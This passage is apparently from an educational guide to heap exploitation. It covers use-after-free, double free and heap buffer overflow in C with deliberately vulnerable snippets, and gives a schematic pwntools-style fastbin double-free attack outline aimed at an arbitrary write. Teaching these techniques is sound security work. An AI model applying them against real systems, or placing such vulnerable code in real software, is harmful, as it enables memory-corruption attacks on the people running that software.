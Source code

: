 **Exploitation Steps:**
1. Free a chunk containing function pointers
2. Allocate new chunk with controlled data
3. Trigger use of freed chunk to execute controlled data

### Double Free

Freeing the same chunk twice corrupts heap metadata.

```c
// Vulnerable code
free(ptr);
// ... some code ...
free(ptr);  // Double free vulnerability!
```

### Heap Buffer Overflow

Overflowing heap buffers can corrupt adjacent chunk metadata.

```c
// Vulnerable code
char *buf1 = malloc(64);
char *buf2 = malloc(64);
strcpy(buf1, very_long_string);  // Overflows into buf2's metadata
```

## Exploitation Techniques

### Fastbin Attack

Exploits the fastbin mechanism for small chunk allocations.

```python
# pwntools exploitation example
from pwn import *

# 1. Allocate chunks in fastbin range (< 128 bytes)
malloc(0, 64)  # chunk A
malloc(1, 64)  # chunk B

# 2. Free chunks to populate fastbin
free(0)  # A -> fastbin
free(1)  # B -> A -> fastbin

# 3. Double free to corrupt fastbin
free(0)  # A -> B -> A (corrupted fastbin)

# 4. Allocate with fake chunk address
fake_chunk = target_address - 8  # Account for chunk header
malloc(2, 64, fake_chunk)  # Points fastbin to fake chunk

# 5. Allocate to get arbitrary write
malloc(3, 64)  # Returns address near target
```
